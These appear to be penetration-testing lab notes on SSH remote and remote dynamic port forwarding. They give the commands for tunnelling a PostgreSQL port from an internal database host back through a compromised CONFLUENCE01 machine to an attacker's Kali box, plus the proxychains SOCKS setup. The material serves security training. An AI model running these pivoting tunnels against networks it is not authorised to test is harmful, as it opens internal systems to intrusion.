 # SSH Remote port forwarding

## Remote Port Forwarding

The listening TCP port 2345 is bound to the loopback interface on our Kali machine. Packets sent to this port are pushed by the Kali SSH server software through the SSH tunnel back to the SSH client on CONFLUENCE01. They are then forwarded to the PostgreSQL database port on PGDATABASE01.

**start SSH on kali machine**

```sh
sudo systemctl start ssh
sudo ss -ntplu
```

To connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting **PasswordAuthentication** to **yes** in **/etc/ssh/sshd\_config**.

{% code overflow="wrap" %}
```sh
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
{% endcode %}

* `-R` - SSH remote port forwarding\
  listen on kali machine and forward all traffic to the target machine

## Remote Dynamic Port Forwarding

creates a _dynamic port forward_ in the _remote_ configuration. The SOCKS proxy port is _bound to the SSH server_, and traffic is _forwarded from the SSH client_.

```sh
ssh -N -R 9998 kali@192.168.118.4
```

* uses the same **-R** option as classic remote port forwarding
  * difference: only pass 1 socket (the socket we want to listen to) for dynamic remote port forwarding
* `-R 9998` - bind the SOCKS proxy to port 9998 on the loopback interface of our Kali machine

**Proxychains**

`/etc/proxychains4.conf`\
Add to proxychains conf on kali machine = `socks5 127.0.0.1 9998`

`proxychains -q` - quiet mode (less verbose)

{% embed url="https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e" %}
